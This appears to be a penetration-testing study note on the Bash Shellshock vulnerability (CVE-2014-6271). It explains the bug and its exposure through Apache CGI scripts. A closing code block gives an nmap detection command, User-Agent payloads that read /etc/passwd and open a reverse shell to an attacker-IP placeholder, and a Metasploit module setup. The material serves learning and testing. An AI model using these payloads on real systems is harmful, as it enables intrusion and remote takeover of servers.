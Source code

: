 # Hacking Linux


## CVE-2014-6271 (Shellshock)

Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.

Bash is a *Nix shell that is part of the GNU project and is the default shell for most Linux distributions.

The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters:
`() {:;};`.

In the context of remote exploitation, Apache web servers configured to run CGI scripts or `.sh` scripts are also vulnerable to this attack.

CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.


In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.

In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.

This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.



```
# Check if targert is vulnerable, for a file located in webserver root /gettime.cgi

nmap -sV [IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

# set payload in User-Agent field with Burp Suite
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER IP]/[PORT] 0>&1'


# With Metasploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec	
	set TARGETURI /gettime.cgi



```














